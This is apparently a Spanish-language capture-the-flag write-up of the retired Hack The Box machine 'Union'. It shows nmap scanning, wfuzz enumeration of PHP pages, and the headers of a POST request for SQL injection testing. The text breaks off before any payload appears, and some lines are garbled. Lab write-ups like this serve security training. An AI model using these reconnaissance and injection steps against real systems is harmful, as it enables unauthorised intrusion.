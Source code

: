 ```yaml
---
layout: post
title:  "Maquina Retirada Union de Hack The Box (Necesario VIP)"
description: En esta ocasion empezaremos con el Writeup de la maquina de HackTheBox llamada UNION
tags: HTB, SQLI, Local File Inclusion, PHP, X-Forwarder-For, Command Injection, Maquinas Retiradas,
---
```


# Unio n - SQL Injection ~ Hack The Box

Realizamos el Primer escaneo con Nmap
```bash
$" nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -oG allports 10.10.11.128       "
``` 
Procedemos con el siguiente escaneo de Nmap
```bash
 PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
 ```
 
Procedemos a Enumerar los Recursos de la Web con extension .php :
```bash
Target: http://10.10.11.128/FUZZ.php
Total requests: 220547

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                   
=====================================================================

000000002:   200        42 L     93 W       1220 Ch     "index"                                                                                                                                                                   
000000868:   200        0 L      2 W        13 Ch       "firewall"                                                                                                                                                                
000001477:   200        0 L      0W "config"                                                                                                                                                                
000004086:   200        20 L     61 W       772 Ch      "challenge"
```

Vemos que tenemos un campo vulnerable a Inyecciones SQLI, es importante destacar que0 Nos damos cuenta mediante el uso de los siguientes Payloads
```bash
POST /index.php HTTP/1.1
Host: 10.10.11.128
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 32
Origin: http://10.10.11.128
Connection: close
```
